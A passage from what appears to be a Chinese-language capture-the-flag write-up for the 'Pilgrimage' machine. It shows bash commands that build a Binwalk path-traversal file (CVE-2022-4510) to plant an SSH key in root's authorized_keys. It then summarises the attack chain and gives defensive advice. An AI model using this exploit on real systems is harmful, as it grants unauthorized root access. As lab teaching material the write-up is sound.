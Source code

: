 ## Flags

```
user.txt: c********************************8
root.txt: 9********************************4
```

## 另一種提權方法

### Binwalk 手動利用

創建惡意 `.ssh/authorized_keys`：

```bash
# 生成 SSH 密鑰對
ssh-keygen -t rsa -f root_key

# 創建 PFS header + 路徑遍歷
echo -ne '\x50\x46\x53\x2F\x30\x2E\x39\x00' > exploit.bin
echo -ne '../../../../root/.ssh/authorized_keys' >> exploit.bin
cat root_key.pub >> exploit.bin
```

上傳後以 root 身份 SSH 登入。

## 總結

Pilgrimage 展示了兩個真實的供應鏈漏洞：

### 攻擊路徑

1. **.git 洩露** → 源碼分析
2. **CVE-2022-44268** → 任意文件讀取
3. **資料庫提取** → 用戶憑證
4. **密碼破解** → SSH 訪問
5. **CVE-2022-4510** → Root RCE

### 學習要點

- Git 倉庫洩露的危害
- ImageMagick 漏洞利用
- SQLite 資料庫分析
- Binwalk 路徑遍歷漏洞
- 進程監控與定時任務

### 防禦建議

1. **保護 .git 目錄**：配置 nginx/apache 阻止訪問
2. **更新依賴**：使用最新版本的 ImageMagick 和 Binwalk
3. **輸入驗證**：嚴格驗證上傳檔案
4. **最小權限**：掃描腳本不應以 root 運行
5. **沙箱隔離**：使用容器隔離文件處理
